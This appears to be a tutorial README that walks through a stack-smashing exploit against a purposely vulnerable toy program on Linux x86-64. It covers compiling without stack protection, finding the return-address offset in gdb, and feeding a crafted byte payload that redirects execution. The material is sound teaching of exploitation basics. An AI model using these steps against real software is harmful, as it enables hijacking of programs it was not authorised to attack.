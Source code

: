 # Simple example of stack smashing exploit on Linux x86-64

Tested on Debian 11. Here are the steps to reproduce the exploit:

1. First we compile the program without the stack protector, and we create a
   static binary to have `security_critical_function` at an easily identifiable
   location:
```
gcc -fno-stack-protector hackme.c -g -o hackme -static
```

   Keep in mind that each time you modify and recompile the program, the
   memory layout will change and you have to redo steps 2 and onwards.

2. We need to measure the distance in bytes between the start of `local_buffer`
   and the return address of `preprocess_input` on the stack. We use gdb and put
   a breakpoint on `preprocess_input`. Once the breakpoint is reached, we
   can print the address of the local buffer I wish to overflow:
```
   (gdb) p &local_buffer
   $1 = (char (*)[16]) 0x7fffffffe220
```

   That's an address on the stack and the return address is stored
   somewhere above. To find where the return address is we first look for
   its value:
```
   (gdb) info frame
   [...] saved rip = 0x401d0c
```

   The return address is `0x401d0c`! Now let's find it on the stack by
   printing the stack content, starting from the stack pointer (RSP register)
```
   (gdb) x/wx $rsp
   0x7fffffffe210:	0x004a90a0  // nope
   (gdb) x/wx $rsp+8
   0x7fffffffe218:	0xffffe651  // nope
   (gdb) x/wx $rsp+16
   0x7fffffffe220:	0x00000000  // nope
   (gdb) x/wx $rsp+24
   0x7fffffffe228:	0x00400488  // nope
   (gdb) x/wx $rsp+32
   0x7fffffffe230:	0xffffe250  // nope
   (gdb) x/wx $rsp+40
   0x7fffffffe238:	0x00401d0c  // found it!
```

   So the offset between the start of the buffer we want to overflow and
   the return address is:
   `0x7fffffffe238 - 0x7fffffffe220 = 0x18` (i.e. 24 bytes)
   Conclusion: there are 24 bytes between `local_buffer` and the return address

3. Next we need to craft our payload, it should be consituted of 24 bytes
   of padding, followed by the value we want to overwrite the return address
   with, i.e. the address of `security_critical_function`. We can find it
   easily:
```
   nm hackme | grep security_critical_function
```

   In my case it is at `0x401c8d`:
```
   0000000000401c8d T security_critical_function
```

   So my payload will be: [24 bytes of padding][0x401c8d]

4. We cannot inject bytes directly from the command line arguments, as what
   we put there are characters that get encoded with ascii code in memory,
   so we use `echo -e` to generate bytes than we feed these as the command
   line parameter to our target using `xargs`:

```
   echo -e "\x11\x11\x11\x11\x11\x11\x11\x11\x11\x11\x11\x11\x11\x11\x11\x11\x11\x11\x11\x11\x11\x11\x11\x11\x8d\x1c\x40\x00\x00\x00\x00\x00" | xargs --null -t -n1 ./hackme
```

   Notice how we have 24 bytes of garbage (`\x11`) and then the address of
   `security_critical_function` that will overwrite the return address:
   `\x8d\x1c\x40\x00\x00\x00\x00\x00`
```
